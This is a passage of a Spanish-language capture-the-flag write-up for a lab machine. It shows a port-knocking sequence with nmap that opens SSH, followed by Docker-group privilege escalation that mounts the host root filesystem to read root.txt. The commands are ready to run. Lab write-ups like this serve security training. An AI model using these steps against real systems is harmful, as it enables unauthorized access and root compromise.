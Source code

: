 
### Port Knocking {-}

En este caso la idea seria conectarse al puerto 22 (es una suposicion). El problema es que este puerto esta cerrado. 
La idea de la tecnica de **Port Knocking** es que si el atacante golpea unos puertos en un orden definido, por
iptables se puede exponer o bloquear un puerto.

```bash
nmap -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r
```

> [!] NOTAS: El argumento 
```bash
 -r 
```
 es para decir a NMAP de scanear los puertos en este mismo orden

Lanzando el comando multiples veces, NMAP nos reporta ahora que el puerto 22 esta ya abierto.
Lo que se puede hacer es, de seguida despues del **Port Knocking** con nmap, lanzar un comando
ssh a la maquina.

```bash
nmap -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r && ssh prometheus@10.10.10.83
```

Perfecto se nos pregunta por una contraseña **Y PA DENTRO**

En este momento ya se puede ver la flag 
```bash
 user.txt 
```
 y Podemos pasar a la fase de escalacion de privilegios.
## Escalacion de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
```

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

### Escalacion de privilegios con Docker {-}

1. Checkear las imagenes Docker existentes

    ```bash
    docker ps
    ```

1. Utilizar una imagen existente para crear un contenedor y **mountarle** la raiz del systema en el contenedor

    ```bash
    docker run --rm -it -v /:/mnt rodhes bash
    cd /mnt/root/
    cat root.txt
    ```
